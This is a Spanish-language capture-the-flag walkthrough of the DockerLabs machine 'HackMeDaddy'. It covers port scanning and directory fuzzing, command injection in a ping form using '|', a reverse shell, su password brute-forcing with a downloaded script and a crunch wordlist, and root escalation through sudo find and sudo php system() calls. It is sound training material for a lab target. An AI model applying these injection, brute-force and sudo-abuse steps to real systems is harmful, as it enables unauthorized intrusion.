




Hoy maquina HackMeDaddy de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Difícil



# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
sudo nmap -p- 172.17.0.2 -sSVC --min-rate 5000 -n -Pn --open -oN escaneo.txt
```

```ruby
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 19:21 -03
Nmap scan report for 172.17.0.2
Host is up (0.000015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 05:48:9d:f6:29:e1:dd:c4:f6:18:87:ff:13:15:5a:80 (ECDSA)
|_  256 0a:3d:0d:c3:fe:4e:57:8a:de:1f:5f:3c:8e:92:e9:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: HackMeDaddy - Hacking \xC3\x89tico
| http-robots.txt: 3 disallowed entries 
|_/FLAG.txt /joomla/* /secret/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```

Como vemos no hay nada interesante, solo esta abierto el puerto 22 y 80 pero nada interesante.

### PUERTO 80:



En un principio no hay nada interesante, por lo que haremos un poco de fuzzing con gobuster:

```css
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,sh,py,js,elf
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,sh,py,js,elf
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 7036]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/info.txt             (Status: 200) [Size: 123]
/flag.txt             (Status: 200) [Size: 455]
/robots.txt           (Status: 200) [Size: 691]
Progress: 135528 / 1764488 (7.68%)
[!] Keyboard interrupt detected, terminating.
===============================================================
Finished
===============================================================
```

Lo único interesante es el archivo `info.txt` que nos habla de un `README.txt` y de un usuario llamado "Eliot", por lo que si vemos un poco la página principal en un momento se ejecuta un comando que dice "cat README.txt" y tiene esto:

```ABAP
d05notfound exploit payload shell bruteforce vulnerability cipher zero-day phishing root port_scan firewall backdoor
```

Entonces probando si existe en el servidor vemos que si existe la carpeta `d05notfound` y contiene esto:
               

Pero lo único importante es que al final dice que se puede hacer un "ping". Ahora abriremos el burpsuite y capturamos la peticion al poner `-c 1 google.com`, damos click derecho a la petición y damos click izquierdo en donde dice "Send To Repeater". Ahora vamos al repeater y le damos al "send" y en response ponemos "Raw", ahora, si bajamos vemos que si se ejecuta el ping y nos muestra esto:

```css
PING google.com (172.217.172.78) 56(84) bytes of data.
64 bytes from eze06s01-in-f14.1e100.net (172.217.172.78): icmp_seq=1 ttl=114 time=102 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 101.841/101.841/101.841/0.000 ms
```

como vemos, solo mando 1 porque pusimos "-c 1", por lo que tecnicamente ejecuta el comando directamente con "ping $INPUT", por lo que teniendo en cuenta eso podriamos intentar poner un ";" o "|" con otro comando como por ejemplo `ls -la`. Al presionar send vemos que el que funciona es "|" y nos devuelve esto:

```css
PING google.com (172.217.172.78) 56(84) bytes of data.
64 bytes from eze06s01-in-f14.1e100.net (172.217.172.78): icmp_seq=1 ttl=114 time=102 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 102.012/102.012/102.012/0.000 ms
</pre><h2>Resultado del Comando:</h2><pre>total 12
drwxr-xr-x 1 root root   30 Aug 13 14:42 .
drwxr-xr-x 1 root root   94 Aug 13 14:52 ..
-rw-r--r-- 1 root root 8300 Aug 13 14:40 d05notfound.php
```

Vemos que podemos ejecutar comandos remotamente con el signo "|".

# INTRUSION

Ahora que podemos ejecutar comandos vamos a la pagina de [revshells](https://www.revshells.com) y buscamos el de `python3 #2`, escuchamos con netcat en el puerto que elegimos y presionamos el send. *Ya estamos dentro*

### TRATAMIENTO DE LA TTY

Para hacer el tratamiento de la tty y que no se nos cierre el terminal al persionar `ctrl+C` tenemos que ejecutar esta serie de comandos apenas entremos:

```css
script /dev/null -c bash #damos al enter y presionamos ctrl+Z
stty raw -echo;fg #damos al enter y ponemos reset xterm y enter
export TERM=xterm && export SHELL=bash
```

Una ve hecho esto ya no se nos cerrará la terminal.

# ESCALADA DE PRIVILEGIOS

## www-data

Siendo el usuario "www-data" iremos a la home y veremos que podemos leer la carpeta "e1i0t". Entramos y luego a la carpeta "documents"; estando ahi vemos dos archivos, `agenda.txt  agenda_passwords.txt`, que al parecer ambos son una wordlist. Ahora hacemos un wget dentro de la carpeta `/tmp` al script [Sudo_BruteForce](https://github.com/Maalfer/Sudo_BruteForce) y lo ejecutamos de la siguiente manera:

```css
/tmp/Linux-Su-Force.sh e1i0t /home/e1i0t/documents/agenda.txt
```

Esto nos encuentra la contraseña del usuario `e1i0t` y escalamos con `su e1i0t` o directamente nos conectamos por ssh.

## e1i0t

Ahora ejecutamos `sudo -l` y vemos que podemos ejecutar el binario `find` como el usuario "an0n1mat0", por lo que buscamos en [GTFOBins](https://gtfobins.github.io/) y vemos que podemos escalar con:

```css
sudo -u an0n1mat0 find . -exec /bin/bash \; -quit
```

## an0n1mat0

Siendo el usuario "an0n1mat0" listamos lo que hay en nuestro directorio y vemos una nota que dice lo siguiente:

```ruby
The boss told me that he will soon remove your privileges to be able to access your secret folder.
```

Si listamos en la raiz hay una carpeta llamada "secret", si la listamos vemos un archivo llamado "confidencial.txt" que tiene lo siguiente:

```css

There is a super secret file that no one but the boss should read, because there are some user passwords.

You have to move the passwords_users.txt file to a more secure place.
```

Dice que hay un archivo llamado "passwords_users.txt", por lo que lo buscamos con el siguiente comando:

```css
find / -name "passwords_users.txt" 2>/dev/null
```

```css
/usr/local/bin/passwords_users.txt
```

Ahora lo leemos con cat y nos dice esto:

```css
User passwords:

e1i0t:eliotelmejor
an0n1mat0:XXyanonymous
root:root

There are some outdated passwords, but I don't remember an0n1mat0's entire password, I know that where the two
```

Vamos a nuestra maquina local y ejecutamos lo siguiente:

```css
crunch 12 12 abcdefghijklmnopqrstuvwxyz -o wordlist -t @@yanonymous
```

nos lo copiamos y lo creamos como wordlist en la maquina victima y ahora ejecutamos el script que antes nos guardamos con wget de la siguiente manera:

```css
/tmp/Linux-Su-Force.sh an0n1mat0 /tmp/wordlist.txt
```

```css
Contraseña encontrada para el usuario an0n1mat0: XXXXXXXXX
```

Ahora que tenemos la contraseña de "an0n1mat0" podemos hacer un `sudo -l` y vemos que podemos ejecutar `php` como root, entonces simplemente ponemos:

```css
CMD="/bin/bash"
sudo php -r "system('$CMD');"
```

*y ya seriamos root*



Muy buena maquina, adiós...

